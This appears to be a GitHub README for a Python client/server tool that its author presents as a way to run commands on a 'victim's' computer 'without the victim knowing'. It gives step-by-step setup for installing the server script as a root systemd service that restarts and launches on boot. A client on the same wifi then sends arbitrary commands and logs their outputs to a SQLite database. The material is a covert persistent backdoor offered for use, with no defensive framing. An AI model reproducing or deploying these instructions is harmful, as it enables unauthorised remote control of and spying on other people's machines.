 This repository is a cyber security project of mine, it is not very comprehensive yet it is effective, it allows you to do various operations without the victim knowing. You can create or remove directories, install applications and browse the victim's computer. Only drawback is you have to be in the same wifi with the victim.
You can set this up by following the steps I provided.


##Requirements

-To run this project, you will need the following:

-Python 3.x installed on both the server and client machines.

-SQLite3 (included with Python).

-Basic knowledge of using a terminal or command line interface.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##Files Included

client.py: The client script to send commands to the server.

server.py: The server script to receive and execute commands.

createDb.py: A script to create the SQLite database and table.

view_Db.py: A script to view the contents of the database.

command_outputs.db: The SQLite database where command outputs are stored. (you should run the createDb.py on the terminal for this to show up) -> Windows: python createDb.py Linux/Mac: python3 createDb.py

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##Step 1: Edit client.py

In the client.py file, update the IP address to the IP address of the server machine (victim's machine): client_socket.connect(('192.168.169.117', 12345)) #Example

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##Step 2: Run createDb.py

Run the create_db.py script on the client machine to create the SQLite database and table: python3 create_db.py

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##Step 3.1: Setup the Server

On the server machine, create a systemd service to ensure the server script runs on boot: sudo nano /etc/systemd/system/server.service

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##3.2: Add the following content to the file

[Unit]

Description=Start Server Script

After=network.target


[Service]

ExecStart=/usr/bin/python3 /path/to/server.py

WorkingDirectory=/path/to/

StandardOutput=inherit

StandardError=inherit

Restart=always

User=root


[Install]

WantedBy=multi-user.target

Replace /path/to/ with the actual path where server.py is located.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##3.3: Reload the systemd daemon and start the service:

sudo systemctl daemon-reload

sudo systemctl start server.service

sudo systemctl enable server.service
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##Step 4: Running the Client

Run the command 'python3 client.py' on your terminal while you are on your projects directory -> .../Desktop/client.py

Enter the command you want to execute on the server machine. The output will be displayed and stored in the SQLite database.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

##Step 5: Reviewing the Database

To view the contents of the database, run the viewDb.py script on the client machine: python3 view_db.py

This will print the stored command outputs.

------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------

That's all, you can find more commands for your needs in the text file I added named 'serverServiceCommand.txt' 
